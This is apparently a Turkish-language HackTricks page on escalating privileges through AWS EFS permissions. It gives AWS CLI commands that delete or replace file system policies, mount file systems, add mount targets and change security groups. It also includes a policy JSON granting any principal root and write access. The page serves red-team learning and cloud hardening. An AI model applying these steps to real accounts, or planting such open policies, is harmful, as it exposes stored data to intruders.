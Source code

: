 # AWS - EFS Privilege Escalation

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'i **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## EFS

EFS hakkında daha fazla **bilgi** için:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Bir EFS'i bağlamak için, EFS'in açığa çıkarıldığı bir alt ağda olmanız ve erişiminizin olması (güvenlik grupları) gerektiğini unutmayın. Bu durum gerçekleşiyorsa, varsayılan olarak her zaman bağlantı yapabilirsiniz, ancak IAM politikalarıyla korunuyorsa, erişim için burada belirtilen ek izinlere sahip olmanız gerekmektedir.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Bu izinlerden herhangi biriyle bir saldırgan, **dosya sistemi politikasını değiştirerek** size erişim sağlayabilir veya sadece **silmek** için varsayılan erişimi sağlayabilir.

Politikayı silmek için:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Değiştirmek için:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Bu izinle bir saldırgan, EFS'yi **bağlama** yeteneğine sahip olacaktır. EFS'yi bağlayabilen herkese yazma izni verilmediyse, sadece **okuma erişimi** olacaktır.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Ekstra izinler `elasticfilesystem:ClientRootAccess` ve `elasticfilesystem:ClientWrite`, dosya sistemi bağlandıktan sonra içine **yazmak** ve bu dosya sistemine **root olarak erişmek** için kullanılabilir.

**Potansiyel Etki:** Dosya sisteminde hassas bilgileri bulmak suretiyle dolaylı bir ayrıcalık yükseltme.

### `elasticfilesystem:CreateMountTarget`

Eğer bir saldırgan, EFS'nin **hiçbir bağlama hedefinin** bulunmadığı bir **alt ağda** bulunuyorsa, bu ayrıcalıkla sadece **kendi alt ağına bir bağlama hedefi oluşturabilir**:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potansiyel Etki:** Dosya sisteminde hassas bilgileri bulmak suretiyle dolaylı bir ayrıcalık yükseltme.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Bir saldırgan, EFS'nin alt ağında bir bağlama hedefi olduğunu fark eder ancak **hiçbir güvenlik grubu trafiğe izin vermiyorsa**, sadece **seçilen güvenlik gruplarını değiştirerek** bunu değiştirebilir:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potansiyel Etki:** Dosya sisteminde hassas bilgileri bulma yoluyla dolaylı ayrıcalık yükseltme.

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmak için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek paylaşın**.

</details>
